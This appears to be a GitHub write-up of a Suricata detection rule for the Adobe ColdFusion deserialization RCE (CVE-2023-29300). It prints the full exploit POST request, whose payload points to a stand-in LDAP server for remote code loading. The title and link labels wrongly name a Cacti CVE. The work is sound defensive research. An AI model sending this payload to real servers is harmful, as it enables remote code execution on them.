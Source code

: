 # ET Open Submission (Return from PCRE grave)
### May 1st, 2024
### CVE-2022-46169 (Cacti Unathenticated RCE) Detected


![8olo1g](https://github.com/eatinsundip/Suricata/assets/43767555/aadafd56-30f9-4747-bb3e-2d78dcfa22f4)


## Resources

1. [https://github.com/taythebot/CVE-2022-46169](https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2023-29300)
2. [https://github.com/lal0ne/vulnerability/tree/main/Cacti/CVE-2022-46169](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)


## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2022_01_04, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2023_01_04;)```

[Job-CVE-2023-29300.zip](https://github.com/eatinsundip/Suricata/files/15173814/flowsynth-CVE-2023-29300.zip)

[http://dalton.securitymidwest.net/dalton/job/3cbf2c602f167d02](http://dalton.securitymidwest.net/dalton/job/3cbf2c602f167d02)


The exploit itself:


POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333


argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://your.ldap.server/example</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>


Breaking down this post request
	• Http.method
		○ POST
	• I plan to test headers manually with the exploit to see if they are required or not. I doubt they are so they are not added right now.
	• Http.uri
		○ /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true
	• Http.request_body
		○ argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://
		○ PCRE for any ldap server name or possible IP. I chose I very broad pcre for this.
		○ </string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>

CURRENT ALERT:

alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"Adobe ColdFusion XML Deserialization Leads to RCE (CVE-2023-29300)"; flow:to_server,established; http.method; content:"POST"; http.uri; content:"/CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true"; http.request_body; content:"argumentCollection|3d 3c|wddxPacket|20|version|3d 27|1|2e|0|27 3e 3c|header|2f 3e 3c|data|3e 3c|struct|20|type|3d 27|xcom|2e|sun|2e|rowset|2e|JdbcRowSetImplx|27 3e 3c|var|20|name|3d 27|dataSourceName|27 3e 3c|string|3e|ldap|3a 2f 2f|"; pcre:"/^.{3,100}/"; content:"|3c 2f|string|3e 3c 2f|var|3e 3c|var|20|name|3d 27|autoCommit|27 3e 3c|boolean|20|value|3d 27|true|27 2f 3e 3c 2f|var|3e 3c 2f|struct|3e 3c 2f|data|3e 3c 2f|wddxPacket|3e|"; sid:1; rev:1; metadata:attack_target Server, created_at 2022_01_04, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2023_01_04;)


## NOTES
Need to test what headers are even necessary in the actual exploit.
